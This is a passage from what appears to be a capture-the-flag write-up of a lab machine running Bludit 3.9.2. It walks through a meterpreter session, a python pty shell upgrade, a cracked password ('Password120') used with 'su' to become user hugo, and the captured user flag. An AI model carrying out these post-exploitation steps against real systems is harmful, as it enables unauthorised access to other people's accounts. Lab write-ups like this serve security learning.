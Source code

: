 ```text
        "linkedin": "",
        "github": "",
        "gitlab": ""}
}
```

I checked the `/home` folder to see what users were on this machine and there was indeed one named `hugo`!

```text
meterpreter > ls
Listing: /home
==============

Mode             Size  Type  Last modified              Name
----             ----  ----  -------------              ----
40755/rwxr-xr-x  4096  dir   2020-05-26 04:29:29 -0400  hugo
40755/rwxr-xr-x  4096  dir   2020-04-28 07:13:35 -0400  shaun
```

![](../../.gitbook/assets/9-password-cracked.png)

The first hash cracking website I tried the hash on immediately revealed the password as `Password120`.

### User.txt

Since there were no remote connection ports open such as SSH, I needed to switch users in the shell I had. I decided to switch to bash since I wasn't too sure what capabilities meterpreter might have, and my commands seemed limited.

```text
meterpreter > shell
Process 27233 created.
Channel 16 created.
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@blunder:/var/www/bludit-3.9.2/bl-content/databases$ ^Z
Background channel 16? [y/N]  n
ls
ls
categories.php  plugins       site.php    tags.php
pages.php       security.php  syslog.php  users.php
www-data@blunder:/var/www/bludit-3.9.2/bl-content/databases$ su hugo
su hugo
Password: Password120

hugo@blunder:/var/www/bludit-3.9.2/bl-content/databases$ cd ~
cd ~
hugo@blunder:~$ cat user.txt
cat user.txt
dcf1f1f3ecde4b372edf165518df8a77
```
